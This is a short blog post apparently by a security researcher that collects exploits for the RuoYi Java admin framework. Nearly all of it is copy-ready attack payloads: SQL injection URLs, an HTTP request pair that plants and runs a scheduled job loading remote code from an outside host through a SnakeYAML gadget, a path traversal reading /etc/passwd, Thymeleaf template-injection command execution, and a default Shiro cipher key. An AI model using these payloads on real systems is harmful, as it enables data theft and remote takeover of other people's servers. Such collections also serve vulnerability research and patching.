 ```yaml
---
layout: post
title: "::若依:: vulnerability summary"
date: 2022-10-08 17:00:43+800
toc: true
wrench: 2024-04-29
author: Bin4xin
categories:
- blog
tags:
- CVE
- 信息搜集
- vulnerability
---
```


## SQL inject

### sqli-1
```
/prod-api/system/user/list?pageSize=&params%5bdataScope%5d=and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))
```

### sqli-2

```
/prod-api/system/role/list?params%5bdataScope%5d=and+extractvalue(1,concat(0x7e,(select+database()),0x7e))
```

## CRON job RCE

### create 

```
POST /prod-api/monitor/job HTTP/1.1
Host: ***
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8

{"jobName":"123","jobGroup":"DEFAULT","invokeTarget":"org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://fwgl.ahjkjt.com.6541b.11e4.bnslog.top\"]]]]')","cronExpression":"0/20 * * * * ?","misfirePolicy":1,"concurrent":"0","status":"0"}
```

### list

```
/prod-api/monitor/job/list
```

### run 

```
PUT /prod-api/monitor/job/run HTTP/1.1
Host: ***
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8

{"jobId":8,"jobGroup":"DEFAULT"}
```

## local file read

```
/common/download/resource?resource=/profile/../../../../etc/passwd
```

## thymeleaf SSTI RCE

```
POST /monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a Calculator')}__::.x
```

```
POST /prod-api/monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a Calculator')}__::.x
```

## Shiro

`CipherKey=fCq+/xW488hMTCD+cmJ3aQ==`

## ref

- [RuoYi若依](https://github.com/ax1sX/SecurityList/blob/main/Java_OA/RuoYi.md)